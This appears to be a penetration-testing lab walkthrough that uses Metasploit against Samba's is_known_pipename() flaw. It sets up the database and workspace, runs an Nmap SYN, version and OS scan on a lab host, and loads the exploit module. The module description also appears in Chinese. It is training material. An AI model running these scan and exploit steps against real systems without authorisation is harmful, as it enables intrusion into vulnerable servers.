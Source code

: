 It works very similarly to the EternalBlue exploit. In that, we are exploiting an inherent vulnerability, not an SMB or a Samba misconfiguration.

```
ifconfig
eth1: inet 192.18.76.2
```

Start up the PostgreSQL service so that we can interact with the MSF database. 

```
service postgresql start
```

Launch MSF console.

```
msfconsole
```

Create a workspace.

```
workspace -a samba
```

Set the global variable for the RHOSTS option. The global variable option will save us from manually or continually entering the target IP whenever we load a new module.

```
setg RHOSTS 192.18.76.3
```

Perform an Nmap scan on the target to identify what version of Samba is running on the target. We can do this by utilizing the `db_nmap` command, which will allow us to perform an Nmap scan from within the MSF console and consequently save the results into the MSF database.

`-sS`: Perform a SYN scan.

`-sV`: Perform a service detection scan.

`-O`: Perform an operating system detection scan.

```
db_nmap -sS -sV -O 192.18.76.3
```

[Samba is_known_pipename() Arbitrary Module Load](https://www.rapid7.com/db/modules/exploit/linux/samba/is_known_pipename/)

This module triggers an arbitrary shared library load vulnerability in Samba versions 3.5.0 to 4.4.14, 4.5.10, and 4.6.4. This module requires valid credentials, a writeable folder in an accessible share, and knowledge of the server-side path of the writeable folder. In some cases, anonymous access combined with common filesystem locations can be used to automatically exploit this vulnerability.

Samba is_known_pipename() 任意模块加载

此模块在 Samba 版本 3.5.0 到 4.4.14、4.5.10 和 4.6.4 中触发任意共享库加载漏洞。此模块需要有效的凭据、可访问共享中的可写文件夹以及可写文件夹的服务器端路径知识。在某些情况下，匿名访问与常见文件系统位置相结合可用于自动利用此漏洞。

```
search type:exploit name:samba
use exploit/linux/samba/is_known_pipename
show options
```
 
